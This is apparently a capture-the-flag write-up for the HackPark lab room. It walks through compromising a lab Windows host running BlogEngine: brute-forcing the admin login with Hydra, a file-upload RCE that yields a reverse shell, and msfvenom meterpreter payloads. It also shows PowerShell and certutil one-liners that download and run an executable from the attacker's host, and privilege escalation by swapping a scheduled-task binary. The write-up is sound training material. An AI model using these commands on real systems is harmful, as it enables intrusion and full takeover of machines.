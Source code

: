 Using autorecon, we quickly determine that ports 80 and 3389 are open.
 
![efa067d955098e8f8ee6b381e60c64ab.png](/HackPark/_resources/efa067d955098e8f8ee6b381e60c64ab-1.png)
 
By either looking at the autorecon results or by running a detailed nmap scan, we obtain more details about the services running on these two ports:
 
![1613229ae7e2222b5f5b021d0cbd24f0.png](/HackPark/_resources/1613229ae7e2222b5f5b021d0cbd24f0-1.png)
 
Investigating the web server on port 80, we eventually find a login page.
 
![2f8d1c6ad747ce3acbfbe550f89e4caf.png](/HackPark/_resources/2f8d1c6ad747ce3acbfbe550f89e4caf-1.png)
 
A quick Google search tells us that the default credentials for blogengine are admin:admin; this does not work in this instance, but we make note of this for later. Right-clicking on the log in button and using Firefox's inspect tool, we can determine the request type used by the log in form.
 
![f03ee789746226fd3abba612238de0db.png](/HackPark/_resources/f03ee789746226fd3abba612238de0db-1.png)
 
Alternatively, we can send the request through BurpSuite:
 
![3f665a94884868f0448d14ddd7faa944.png](/HackPark/_resources/3f665a94884868f0448d14ddd7faa944-1.png)
 
This will be useful later, as we will need the body of the POST request.

<br>

# Exploitation

We begin by brute-forcing the login page we found during our enumeration. We make use of Hydra. A bit of Googling reverse that one possible form of Hydra attack for an http-form POST request is:

```bash
hydra -l <username> -P <password list> $ip http-form-post "<path to login form>:<http post request body>:<invalid login pattern>" -V
```

For this to work, we need a few parameters:

- `<username>`: In this case, this is just admin.
- `<password list>`: We have a few choices here. We'll make use of the usual rockyou.txt password list.
- `$ip$`: This is the IP of the target machine.
- `<http post request body>`: This is the body of the HTTP post request we found using Burp. In general, we need to replace at least one of the username or password fields in the request body with `^USER^` or `^PASS^`, respectively. Since in this case we know the username, we can just use the password string.
- `<invalid login pattern>`: This is a string which Hydra will use to identify a failed login. We can test this directly on the login page and we find that "Login Failed" is the phrase returned for a failed login attempt.

Putting this together, the final command then becomes:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.0.19 http-post-form "/Account/login.aspx:__VIEWSTATE=VCLL4AD5hj4eU3c7OwZCMFSLrZgnuwNWwqU14ymrpSECMRMEss1jMVYmVb67U%2FpsBcK4tYfVcmqrQ%2B95Jw3qZzSMDHpPIKoIenuCluq6CFcmlVtKvP9qEozi293OcTTtm4qs%2Bf2KgjvhxZRnGxbLjaieg4PILs7zGesG7KaJ0cBNnJCJ&__EVENTVALIDATION=uri6bSKQN1p12IRWrOAPflhnCzioDymlveM9EI3FTCbZDuejIqx1mmjj1frSwFIxJVP67K%2BbeYtAFGpcmnK3vS7Fnnht8ZBu1RwEyFOmtErPCc0hDk71fYe4aqxdDJL%2BzggAaduPYQgoTwhO7cB9U7vuIHO7QtDBD6hYfu5TumyNHhLp&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -V
```
 
![e9040c88c5d9d7bd978ab69d4fcf28ca.png](/HackPark/_resources/e9040c88c5d9d7bd978ab69d4fcf28ca-1.png)
 
After a short while (about 1400 attempts), we obtain the password to the admin account.
 
![e787b6c51985dc37e38b1ac38853b00d.png](/HackPark/_resources/e787b6c51985dc37e38b1ac38853b00d-1.png)
 
Now that we have access to the admin account, we want to find a vulnerability which we can exploit to gain an initial foothold. Navigating to the admin page via the sidebar and then locating the about page reveals the version of BlogEngine.
 
![c0b94d9a6ccaf6773f8290789f22ea26.png](/HackPark/_resources/c0b94d9a6ccaf6773f8290789f22ea26-1.png)
 
Searching for "Blog Engine 3.3.6" on exploit DB gives us a few options; we will use [this exploit](https://www.exploit-db.com/exploits/46353) for remote code execution. Download the exploit and open the code in Mousepad. We need to change the TcpClient IP to the attacker IP. We will listen on the indicated port (in this case, I've chosen port 9999).
 
![24c39b9e1c067839ba50736b1bdd57ae.png](/HackPark/_resources/24c39b9e1c067839ba50736b1bdd57ae-1.png)
 
Start a netcat listener on the attacking machine.
 
![f81b1fd29f92bd75ef391547a6f8a90e.png](/HackPark/_resources/f81b1fd29f92bd75ef391547a6f8a90e-1.png)
 
We will run the exploit by following the instructions given in the C# file. Look for a published post using the admin dashboard and click on it to begin editing.
 
![2481f63928dad8cff301cb68653c3645.png](/HackPark/_resources/2481f63928dad8cff301cb68653c3645-1.png)
 
In the editor, click on the folder icon to open the file manager. Then rename the C# file to `PostView.ascx` and upload it.
 
![54df4778576ce55f5a526059f55af926.png](/HackPark/_resources/54df4778576ce55f5a526059f55af926-1.png)
 
We then trigger the file by navigating to `10.10.0.19/?theme=HackPark/App_Data/files`. Going back to our netcat listener, we see that we've caught a reverse shell.
 
![2142b8b7632e79fef82e5eec0c0c9b33.png](/HackPark/_resources/2142b8b7632e79fef82e5eec0c0c9b33-1.png)
 
Since our shell is unstable, we will pivot from netcat to a meterpreter session. Start by generating a reverse shell payload with msfvenom.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9999 -f exe -o hackparkshell.exe
`

We then open a web server with `python3 -m http.server` within the directory containing the reverse shell executable. Meanwhile, in our netcat session we navigate to `C:\Windows\Temp` (since we don't seem to have write permissions elsewhere) and run the following command to download the msfvenom reverse shell payload.
```powershell
powershell -command "Invoke-WebRequest -OutFile shell.exe -Uri 10.6.30.43:8000/hackparkshell.exe"
```

We can also use the following command to download files onto a Windows machine.
```powershell
certutil.exe -urlcache -f http://10.6.30.43/hackparkshell.exe shell.exe
```

In another terminal window, we open up Metasploit to set up the reverse handler. We use  ``use exploit/multi/handler`` and we set the following options:
 
![e18242f0bff037e0f026b24a82b01662.png](/HackPark/_resources/e18242f0bff037e0f026b24a82b01662-1.png)
 
Now ``run``  to start the reverse TCP handler. Back in our netcat session, we execute the shell with `shell.exe`. This will give us our meterpreter shell.

<br>

# Post-exploitation

Now that we have a stable shell, we wish to escalate privileges. Using `sysinfo` gives us some more information about the Windows machine.
 
![ef80725497f42f86fff2a3f0ac010f3d.png](/HackPark/_resources/ef80725497f42f86fff2a3f0ac010f3d-1.png)
 
The room suggests feeding the output into [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) in order to determine further exploits for privilege escalation. However, this didn't seem to work for me. Instead, we'll use WinPEAS. We download the x64 exe file [from here](https://github.com/carlospolop/PEASS-ng/releases/tag/20220717) and we transfer it to the target system. Here, I switched to a Windows shell within meterpreter with `shell powershell` and used the same command we used before.
 
![a556bb3bcc0fd6bcf88720ab09fa4b6e.png](/HackPark/_resources/a556bb3bcc0fd6bcf88720ab09fa4b6e-1.png)
 
We then run winPEASx64.exe. We find some AutoLogon credentials.
 
![b295c359179f0979ebbdecbdd843c173.png](/HackPark/_resources/b295c359179f0979ebbdecbdd843c173-1.png)
 
We saw that port 3389 was open and serving a Microsoft Web Server. We can use this to connect to the machine as administrator. Open a new terminal and use the command `xfreerdp /tls-seclevel:0 /u:Administrator /p:<password> /v:10.10.0.19`.

(Note: I had issues connecting to the Windows machine via RDP; a bit of Googling suggested modifying the tls-seclevel parameter. The above parameter worked for me, although I'm not sure why.)

After RDPing into the machine, we have root access. The root flag is found on the desktop.
 
![e0b4da138dfc97dec15f63bb7e4141cc.png](/HackPark/_resources/e0b4da138dfc97dec15f63bb7e4141cc-1.png)
 
Similarly, we can navigate to Jeff's desktop to obtain his flag.
 
![b7a8c407998e463c4527ee3e432c1a3c.png](/HackPark/_resources/b7a8c407998e463c4527ee3e432c1a3c-1.png)
 
Alternatively, we can follow the intended path given in Task 4 of the room. Sifting through the winPEAS output, we eventually find an abnormal service running on the Windows machine.
 
![6b5ec3c6fd6524ee0e3fcd0fa2f10dae.png](/HackPark/_resources/6b5ec3c6fd6524ee0e3fcd0fa2f10dae-1.png)
 
It seems that something is happening with the Windows Scheduler service. We caught a glimpse of this when we RDP'd into the machine; every minute or so, a strange message pops up. Within our netcat session, we navigate to `C:\Program Files (x86)\SystemScheduler` and run `tasklist /v` to see a list of currently running tasks. We note that the file `Message.exe` seems to be sheduled.
 
![47cc8dde9b28889cfdc4f0f59e13b6a7.png](/HackPark/_resources/47cc8dde9b28889cfdc4f0f59e13b6a7-1.png)
 
Our goal is to replace this file with our msfvenom payload in order to spawn a reverse shell. We use the same command as before to generate the payload, making sure to use a different port this time.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9998 -f exe -o Message.exe 
```

Now repeat the steps from the previous task by setting up a Metasploit handler: Delete the old Message.exe file with `del /f Message.exe`, upload the new Message.exe payload to the target system, and wait for the task to execute. Since the system scheduler runs with admin privileges, this gives us a reverse shell with elevated privileges which we can use to access the two needed flags. Now we can navigate to the relevant folders within the meterpreter shell to find the flags.
 
![cf3e3caf2dcae4113c340614d619b940.png](/HackPark/_resources/cf3e3caf2dcae4113c340614d619b940-1.png)

![5388252d3f95cf1883f78afa49146da9.png](/HackPark/_resources/5388252d3f95cf1883f78afa49146da9-1.png)
 
To finish the room, we just need to find the original install time. This type of information can be found in the winPEAS output. The correct date and time turns out to be the same as the last time the Administrator's password was reset.
 
![06e783f7ae4b055418e0574d50c22ff6.png](/HackPark/_resources/06e783f7ae4b055418e0574d50c22ff6-1.png)